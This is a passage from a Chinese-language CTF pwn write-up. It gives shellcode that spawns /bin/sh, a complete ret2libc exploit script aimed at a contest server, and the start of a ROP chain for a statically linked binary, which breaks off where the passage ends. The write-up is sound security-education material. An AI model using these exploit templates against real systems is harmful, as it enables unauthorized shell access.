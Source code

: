 优化优化再优化,最后居然满足了18字节的限制

那剩下的工作就非常简单了

```python
pay=b'\x90'*0x20+asm("mov rdi,rcx;mov al,0xa;mov dl,7;mov rsi,0x1000;syscall;mov rsi,rcx;xor rdi,rdi;mov rdx,0x1000;xor rax,rax;syscall")
io.send(pay)
pause()
pay=b'\x90'*0x20+asm("lea rdi,[rcx+0x21];mov rax,0x3b;xor rsi,rsi;xor rdx,rdx;syscall")+b'/bin/sh\x00'
```

其实0xff已经完全够了,当时下意识怕写滑梯不够用,第三次调用read注入nop滑梯,其实完全没有必要

## 签到 | FINISHED - 01

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505205918552.png)

裸gets函数总不能有人不会吧

```python
from pwn import *
libc=ELF('./libc.so.6')
io=remote("node2.tgctf.woooo.tech",31218)
elf=ELF('./pwn')
payload=b'a'*0x78+p64(0x0000000000401176)+p64(elf.got['gets'])+p64(elf.plt['puts'])+p64(0x401178)
io.recvuntil(b'please leave your name.\n')
io.sendline(payload)
base=u64(io.recv(6)+b'\x00\x00')-libc.sym['gets']
system=base+libc.sym['system']
bin_sh=base+next(libc.search(b"/bin/sh"))
payload=b'a'*0x78+p64(0x0000000000401176+1)+p64(0x0000000000401176)+p64(bin_sh)+p64(system)
io.sendline(payload)
io.interactive()
```

最经典的ret2libc模板

## overflow | FINISHED - 01

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505205918553.png)

静态编译的,用ROPchain生成rop链就好了,但是注意

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505205918554.png)

所以我们将栈迁移到name中,在gets溢出中把rbp覆盖为name

这道题不是经典的leave\_ret结尾

```python
from pwn import *
from struct import pack
#io=process('./pwn')
# Padding goes here
io=remote("node1.tgctf.woooo.tech",32397)
p  = pack('<I', 0x08060bd1) # pop edx ; ret
p += pack('<I', 0x080ee060) # @ .data
p += pack('<I', 0x080b470a) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x080597c2) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x08060bd1) # pop edx ; ret
p += pack('<I', 0x080ee064) # @ .data + 4
p += pack('<I', 0x080b470a) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x080597c2) # mov dword ptr [edx], eax ; ret
```